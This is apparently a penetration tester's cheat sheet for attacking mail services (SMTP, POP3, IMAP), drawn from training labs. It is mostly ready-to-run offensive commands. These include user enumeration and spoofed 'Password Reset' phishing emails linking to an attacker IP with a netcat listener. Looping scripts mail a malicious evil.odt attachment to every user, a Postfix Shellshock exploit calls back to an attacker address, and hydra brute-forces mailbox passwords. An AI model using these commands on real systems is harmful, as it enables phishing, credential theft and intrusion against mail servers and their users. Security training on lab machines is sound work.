 # Mail - SMTP 25 465 587, IMAP 143 993, POP 110 995

### First Thoughts

- Phishing
	- Windows or Linux?
	- NTLM grab, link to local server, library file, reverse shell?
	- What type of file?

- Enumeration
	- Check for valid users
	- Try valid usernames elsewhere
		- Perhaps username as their password
		- Non-person names ran through rule list for password

- Exploits
	- Haven't done in 200+ boxes so far (remotely)


#### Basic enumeration

```bash
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-* and safe" -oA smtp $RHOST

# enumerate users
sudo nmap -n -v -p $RPORT_SMTP --script="smtp-enum-users" -oA smtp-users $RHOST

# enumerate each user
vi smtp-user.txt  # write what smtp-enum-users told
## use MODE = {EXPN, VRFY, RCPT}
smtp-user-enum -M MODE -U smtp-user.txt -D $DOMAIN -t $RHOST
````

#### Manual user enum

```bash
nc -nv $ip 25
telnet $ip 25
EHLO ALL
VRFY <USER>
```

```bash
# Scrape website
cewl http://postfish.off/team.html -m 5 -w team.txt 
# Get valid names
smtp-user-enum -U valid.txt -t postfish.offsec
smtp-user-enum -U valid.txt -t postfish.off
smtp-user-enum -U /opt/SecLists/Usernames/xato-net-10-million-usernames-dup-lowercase.txt -t walla

curl -k "imaps://$dom/INBOX;MAILINDEX=1" --user sales:sales
telnet $ip 110
USER sales
PASS sales
list

# We opened up an email saying there would be a password reset link being sent out from it
sudo nc -lvp 80
sendemail -t brian.moore@postfish.off -f it@postfish.off -s postfish.off -u "Password Reset" -o tls=no
sendemail -t root@postfish.off -f brian.moore@postfish.off -s postfish.off -u "Password Reset" -o tls=no

# Or

nc -v postfish.off 25
helo test
mail from: it@postfish.off
rcpt to: brian.moore@postfish.off
DATA

Subject: Password reset

Hi Brian,

Please follow this link to reset your password: http://192.168.45.178/

Regards,

.

QUIT
```

```bash
for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do sudo swaks --to $name@localhost --from $name2@localhost --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king' ; wait ; done

for name in $(cat valid.txt); for name2 in $(cat valid.txt); do echo "sudo swaks --to $name@$dom --from $name2@$dom --server $dom --attach @evil.odt --body 'smokum' --header 'Subject: king'" >> all-swaks.txt; done

for line in $(cat all-swaks.txt); do echo $line|bash; done

# Sometimes the base of the domain, banzai instead of banzai.local, works better
for user1 in $(cat users.txt); for user2 in $(cat users.txt); do echo "sendemail -t $user1@$dom -f $user2@$dom -s $dom -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -a /home/kali/oscp/twe/windows-evil.odt -o tls=no"|bash; done

for user1 in $(cat valid.txt); for user2 in $(cat valid.txt); do echo "sendemail -t $user1@$dc -f $user2@$dc -s $dc -u 'Password Reset' -m 'Please follow this link to reset your password: http://$myip/' -o tls=no"|bash; done
```

##### Exploits Found

SMTP PostFix Shellshock

```
https://gist.github.com/YSSVirus/0978adadbb8827b53065575bb8fbcb25
python2 shellshock.py 10.11.1.231 useradm@mail.local 192.168.119.168 139 root@mail.local #VRFY both useradm and root exist
```

## Pop 110 & 995

```bash
nmap -n -v -p $port -sV --script="pop3-* and safe" -oA pop3 $ip
```

```bash
hydra -V -f -l $user -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $ip pop3
hydra -l simon -P /usr/share/wordlists/rockyou.txt -f $ip pop3
```

```bash
openssl s_client -connect $ip:pop3s # or fqdn
```

Telnet to port 110 with valid creds to look at mailbox.

```bash
telnet $ip $port   # alternate method
user $user@$dom # or $user , see if it's a valid name
PASS $PASS
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```

```bash
telnet -l jess $ip
USER sales
PASS sales
LIST
RETR 1.
```

## IMAP 143 993

```bash
hydra -V -f -L user.txt -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $RHOST imap
```

#### Log in

```bash
curl -k "imaps://$ip" --user $user:$pass
```

#### Connect

```bash
openssl s_client -connect $ip:imaps # or fqdn
```